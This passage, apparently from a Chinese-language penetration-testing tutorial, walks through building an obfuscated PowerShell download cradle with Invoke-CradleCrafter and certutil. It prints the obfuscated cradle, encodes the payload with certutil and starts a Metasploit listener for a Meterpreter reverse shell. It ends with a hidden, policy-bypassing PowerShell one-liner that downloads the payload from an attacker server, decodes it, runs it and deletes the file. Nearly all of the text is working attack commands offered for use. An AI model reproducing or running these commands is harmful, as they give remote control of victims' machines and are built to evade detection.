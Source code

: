 
到这里应该会显示如下代码

```powershell
Invoke-CradleCrafter\Memory\Certutil\All> 1

Executed:
  CLI:  Memory\Certutil\All\1
  FULL: Out-Cradle -Url 'http://172.20.10.4/key.txt' -Cradle 17 -TokenArray @('All',1)

Result:
SV 1O6 'http://172.20.10.4/key.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

将混淆的代码保存到本地为`crt.txt`用`certutil`进行`encode`加密

```php
certutil -encode crt.txt crt.cer
```

将`cer.cet`放入http服务器目录下，使用msf开启监听

```php
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.10.11
lhost => 192.168.10.11
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run
```

然后靶机执行如下命令即可获得反弹session

```powershell
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://172.20.10.4/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b c
md /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```